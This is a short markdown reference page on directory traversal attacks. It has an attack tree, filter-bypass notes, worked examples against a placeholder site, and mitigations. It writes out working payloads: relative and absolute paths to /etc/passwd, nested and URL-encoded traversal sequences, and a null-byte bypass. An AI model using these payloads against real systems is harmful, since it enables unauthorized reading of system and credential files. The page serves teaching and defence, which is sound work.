 # Directory traversal

## Attack tree

```text
1 Insert relative paths into existing files (OR)
    1.1 ../../../etc/hosts
    1.2 ../../../etc/passwd
    1.3 ...
2 Absolute path from the filesystem root to directly reference a file without using any traversal sequences (OR)
    2.1 filename=/etc/hosts
    2.2 filename=/etc/passwd
    2.3 ...
3 Nested traversal sequences which will revert to simple traversal sequences when the inner sequence is stripped (OR)
    3.1 ....//
    3.2 ....\/
4 URL encoding the ../ characters (OR)
    4.1 url encoding: %2e%2e%2f
    4.2 double url encoding: %252e%252e%252f 
5 Null byte bypass
```

## Notes

Many applications that place user input have some kind of protection against path traversal attacks. 
* Applications can strip or block directory traversal sequences from the user-supplied filename => try an absolute 
path, nested traversal, and url encoding (In a `multipart/form-data request`).
* Some applications validate start of path => include the required base folder followed by suitable traversal sequences.
* It can be that the filename value must end with an expected file extension => try a null byte to effectively terminate 
the file path before the required extension.

## Examples

### Simplest form
Website has https://www.example.com/download_file.php?file=document.pdf

Pass this as the file name:

    ../../../etc/passwd

If the application does not sanitize inputs, the string is used in a system call, switches to the root and then allows 
access the `/etc/` directory and the protected passwd file.

### Null byte bypass

    filename=../../../etc/passwd%00.png

## Tools

* Developer tools browser
* [BurpSuite](https://portswigger.net/burp)

## Mitigations

* Validate the user input before processing it. Compare against a whitelist of permitted values. If that is not 
possible, then verify that the input contains only permitted content (for example only alphanumerics)
* After validation, append the input to the base directory and use a platform filesystem API to canonicalize the path. 
Verify the canonicalized path starts with the expected base directory. 